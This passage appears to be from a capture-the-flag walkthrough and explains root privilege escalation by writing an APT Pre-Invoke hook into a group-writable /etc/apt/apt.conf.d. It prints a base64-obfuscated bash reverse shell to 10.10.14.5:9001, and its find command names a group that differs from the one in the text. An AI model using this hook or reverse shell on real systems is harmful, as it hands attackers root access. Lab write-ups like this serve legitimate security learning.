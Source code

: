 ### Privilege Escalation to root

The user _john_ is a member of the group _management_.

Finding files that are owned by the group _management_:
```
find / -group filter -ls 2>/dev/null
```
```
drwxrwxr-x   2 root     management     4096 Jul 28  2021 /etc/apt/apt.conf.d
```

The directory _/etc/apt/apt.conf.d/_ contains configuration files for the **apt** package manager.

By creating a new configuration file in the directory, the _Pre-Invoke_ feature can be used to execute commands:
```
APT::Update::Pre-Invoke { "echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNS85MDAxICAwPiYxICAK | base64 -d | bash;" }
```

After a while the new configuration file will be processed and execute the Base64-encoded reverse shell command that starts a session on my IP and port 9001 as root!
